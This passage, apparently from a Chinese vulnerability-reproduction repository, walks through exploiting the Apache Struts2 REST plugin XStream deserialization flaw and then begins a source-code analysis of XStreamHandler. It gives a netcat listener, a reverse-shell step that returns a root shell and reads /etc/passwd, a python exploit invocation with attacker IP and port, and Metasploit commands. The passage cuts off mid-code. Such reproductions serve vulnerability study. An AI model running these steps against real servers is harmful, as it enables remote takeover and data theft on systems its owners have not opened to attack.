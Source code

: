这条命令为我们反弹一个shell回来。你需要将`10.30.178.227`设置为你本机的IP，`8001`是反弹到你本机的端口号

![burp.png](/src/burp.png)

打开终端，使用`NetCat`监听本地端口`8001`

``` bash
nc -l -p 8001
```

现在`NetCat`正在监听本机的8001端口，我们点击`burp suite`左上方的`Go`按钮提交request，服务器会返回一个responce，同时我们也监听到了一个shell

![nc.png](/src/nc.png)

如图，我们获取了一个root身份的shell，通过shell我们可以执行任意指令(如图`cat /etc/passwd`). 至此漏洞攻击复现完毕。

### 运行python脚本实现攻击

编写好了一个[python脚本](./exploit.py)以供更便捷地复现攻击过程

``` bash
nc -l -p 8001
# Use: python exploit.py <attacker ip> <attacker port>
python exploit.py 10.30.178.227 8001
```

### 使用Metasploit模块进行攻击

``` bash
msf > use exploit/multi/http/struts2_rest_xstream
msf exploit(struts2_rest_xstream) > show targets
    ...targets...
msf exploit(struts2_rest_xstream) > set TARGET <target-id>
msf exploit(struts2_rest_xstream) > show options
    ...show and set options...
msf exploit(struts2_rest_xstream) > exploit
```


## 0x04 漏洞分析

从`Apache Struts`的一个镜像站点下载`Apache Struts 2.5.12`的源码包进行分析: [struts-2.5.12-src.zip](https://archive.apache.org/dist/struts/2.5.12/struts-2.5.12-src.zip)

在`struts-plugins.xml`中的`bean`标签根据`Content-Type`进行分类，并对各类唯一指定了一个`Handler`.

``` xml
<!-- filepath: /src/plugins/rest/src/main/resources/struts-plugin.xml -->
<bean type="org.apache.struts2.rest.handler.ContentTypeHandler" name="xml" class="org.apache.struts2.rest.handler.XStreamHandler" />
```

`ContentTypeHandler`将对应类型的请求数据分配给指定的子类进行处理，针对`xml`则是默认指定用`XStreamHandler`进行处理，这意味着使用REST插件就会存在`XStreamHandler`的反序列化漏洞。我们查看源码分析它是如何进行处理的

``` java
// filepath: src/plugins/rest/src/main/java/org/apache/struts2/rest/handler/XStreamHandler.java

public class XStreamHandler implements ContentTypeHandler {

    public String fromObject(Object obj, String resultCode, Writer out) throws IOException {
        if (obj != null) {
            XStream xstream = createXStream();
            xstream.toXML(obj, out);
        }
        return null;
    }

    public void toObject(Reader in, Object target) {
        XStream xstream = createXStream();
```